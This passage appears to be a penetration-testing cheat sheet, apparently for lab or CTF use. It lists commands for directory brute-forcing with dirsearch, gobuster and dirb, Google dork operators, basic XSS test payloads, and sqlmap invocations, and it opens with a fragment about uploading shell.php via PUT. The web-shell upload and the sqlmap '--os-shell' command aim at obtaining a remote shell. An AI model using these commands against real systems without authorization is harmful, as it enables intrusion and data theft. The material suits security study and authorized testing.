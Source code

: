 * `PUT /shell.php`
* `Content-type: text/html`
* `Content-length: x`

---
## Directory and File Scanning

Using dirsearch.py,
`dirsearch.py -u http://<machine IP>:PORT -e * 2>/dev/null`

Using gobuster,
`gobuster dir -u http://<machine IP>:PORT/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt -q 2>/dev/null`

Using dirb,
`dirb http://<machine IP>:PORT/ -u username:pass`

---
## Advance Google Search

To use google dorks,
* `site:`
* `intitle:`
* `inurl:`
* `filetype:`
* `AND, OR, &, |, -`

---
## Cross Site Scripting (XSS) Steps:

To test if there's an XSS present on a website,
 - Find a reflection point
 - Test with `<i>` tag
 - Test with HTML/JavaScript code

`<script>alert(1)</script>`

**Reflected XSS:** Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload.

**Persistent XSS:** Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

---
## SQLMAP

To check if website is vulnerable to SQLi,
`sqlmap -u http://<machine IP>:PORT -p parameter`

Check if POST parameter is vulnerable to SQLi,
`sqlmap -u http://<machine IP>:PORT  --data POSTstring -p parameter`

To check if we can get os-shell using SQLmap,
`sqlmap -u http://<machine IP>:PORT --os-shell`
